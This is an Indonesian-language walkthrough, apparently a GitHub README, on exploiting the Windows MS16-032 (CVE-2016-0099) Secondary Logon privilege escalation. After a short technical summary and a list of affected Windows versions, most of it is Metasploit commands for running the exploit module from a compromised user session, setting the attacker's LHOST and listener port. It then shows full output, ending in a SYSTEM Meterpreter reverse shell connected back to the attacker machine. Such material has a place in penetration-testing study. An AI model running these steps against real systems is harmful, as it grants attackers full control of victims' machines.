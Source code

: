 # MS16-032

## A. Apa itu MS16-032?

[MS16-032](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-0099) adalah kerentanan local privilege escalation pada sistem operasi Windows yang ditemukan pada layanan Secondary Logon Service (`seclogon.dll`). Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk menaikkan hak akses menjadi `SYSTEM`, yaitu level tertinggi di sistem Windows.

Eksploitasi ini terjadi karena adanya kesalahan pengelolaan handle token proses yang dilakukan oleh `seclogon.dll`, sehingga memungkinkan penyerang untuk menyisipkan proses baru dengan hak akses `SYSTEM` menggunakan teknik `CreateProcessWithLogonW()`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2016-0099`
- **Buletin Microsoft**: `MS16-032`
- **Tanggal Rilis**: `8 Maret 2016`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan:
- Windows 7
- Windows 8.1
- Windows 10
- Windows Server 2008
- Windows Server 2008 R2
- Windows Server 2012
- Windows Server 2012 R2

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS16-032:

   ```
   msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] PS1 loaded from /usr/share/metasploit-framework/data/exploits/CVE-2016-0099/cve_2016_0099.ps1
   [*] Writing payload file, C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1...
   [*] Compressing script contents...
   [+] Compressed size: 3723
   [*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

   [?] Operating system core count: 2
   [>] Duplicating CreateProcessWithLogonW handle
   [?] Done, using thread handle: 1112

   [*] Sniffing out privileged impersonation token..

   [?] Thread belongs to: svchost
   [+] Thread suspended
   [>] Wiping current impersonation token
   [>] Building SYSTEM impersonation token
   [ref] cannot be applied to a variable that does not exist.
   At line:200 char:59
   +         $dhA = [Ntdll]::NtImpersonateThread($qdY, $qdY, [ref]$qi <<<< )
       + CategoryInfo          : InvalidOperation: (qi:Token) [], RuntimeExceptio 
      n
       + FullyQualifiedErrorId : NonExistingVariableReference
 
   [!] NtImpersonateThread failed, exiting..
   [+] Thread resumed!

   [*] Sniffing out SYSTEM shell..

   [>] Duplicating SYSTEM token
   Cannot convert argument "0", with value: "", for "DuplicateToken" to type "Syst
   em.IntPtr": "Cannot convert null to type "System.IntPtr"."
   At line:259 char:35
   +     $dhA = [Advapi32]::DuplicateToken <<<< ($nxfWT, 2, [ref]$isTl)
       + CategoryInfo          : NotSpecified: (:) [], MethodException
       + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
   [>] Starting token race
   [>] Starting process race
   [!] Holy handle leak Batman, we have a SYSTEM shell!!

   EpGsSpsRhiU1UMP9YNyfQwBdFAPYrXHh
   [+] Executed on target machine.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 8 opened (192.168.1.42:4444 -> 192.168.1.50:49161) at 2025-05-14 03:42:55 +0700
   [+] Deleted C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
